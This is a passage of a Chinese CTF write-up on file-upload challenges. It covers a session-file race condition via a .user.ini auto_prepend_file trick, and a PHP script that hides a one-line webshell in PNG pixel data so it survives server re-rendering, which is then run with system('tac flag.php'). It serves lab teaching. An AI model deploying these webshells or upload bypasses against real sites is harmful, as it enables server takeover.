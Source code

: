   
因为session文件名字，前半部分固定，后半部分是sessionid，这部分我们是可以控制的。开启两个线程，一个不断上传文件，另外一个不断访问触发，如果session文件成功被包含后，那么我们就可以访问成功，执行读取flag.php的代码，得到flag。  
  
先上传.user.in文件  
  
```
1GIF89a
2auto_prepend_file=png

```  
  
  
再上传png，条件竞争的利用，还需要满足条件，知道对方session文件的目录。  
  
```
1GIF89a
2<?=include"/tmp/sess_toxicant"?>

```  
  
  
我这里的利用代码一直没跑出来结果，所以就暂且先放放。  
  
  
**164关：二次渲染**  
  
  
文件二次渲染：当你上传一个图片后，服务器会对图片进行处理，你的后门也就很可能被处理了  
  
解决思路：使用脚本，有人分析了图片处理的规律，使用脚本可以把后门代码写入图片而不被处理  
  
可以利用工具来将木马插入到图片中，工具代码如下，将代码放置到PHP环境中执行即可  
  
```
 1<?php 2$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23, 3           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 4           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 5           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f, 6           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 7           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 8           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 9           0x66, 0x44, 0x50, 0x33);1011$img = imagecreatetruecolor(32, 32);12for ($y = 0; $y < sizeof($p); $y += 3) {13   $r = $p[$y];14   $g = $p[$y+1];15   $b = $p[$y+2];16   $color = imagecolorallocate($img, $r, $g, $b);17   imagesetpixel($img, round($y / 3), 0, $color);18}19imagepng($img,'2.png');  //要修改的图片的路径20/* 木马内容21<?$_GET[0]($_POST[1]);?>22 */23?>

```  
  
  
  
上传成功之后访问图片地址，在后面加入&0=system，1=tac flag.php，这个1=需要用POST方式提交  
  
关于为什么这个图片能被php解析？  
  
查看download.php的源代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFWvGTGVMtTszeMNyUBoParAPJGJX99T0lrKOCVauEDMmgKb2BzSGEucw/640?wx_fmt=png&from=appmsg "")  
  
我们想要查看的图片被包含进入了download.php文件  
  
  
**165关：二次渲染**  
  
  
和上一关一个套路，只不过这次是jpg  
  
